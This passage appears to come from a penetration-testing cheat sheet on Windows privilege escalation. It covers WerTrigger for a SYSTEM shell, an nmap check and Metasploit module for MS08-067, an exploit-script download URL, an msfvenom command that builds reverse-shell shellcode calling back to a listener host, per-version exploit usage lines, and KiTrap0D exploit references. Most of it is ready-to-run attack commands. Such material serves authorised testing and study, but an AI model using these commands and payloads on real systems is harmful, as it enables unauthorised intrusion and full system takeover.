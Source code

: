 
### WerTrigger

> Weaponizing for privileged file writes bugs with Windows problem reporting

1. Clone https://github.com/sailay1996/WerTrigger
2. Copy `phoneinfo.dll` to `C:\Windows\System32\`
3. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
4. Then, run `WerTrigger.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**


## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```


### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7 

'KiTrap0D' User Mode to Ring Escalation (MS10-015)

```powershell
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```
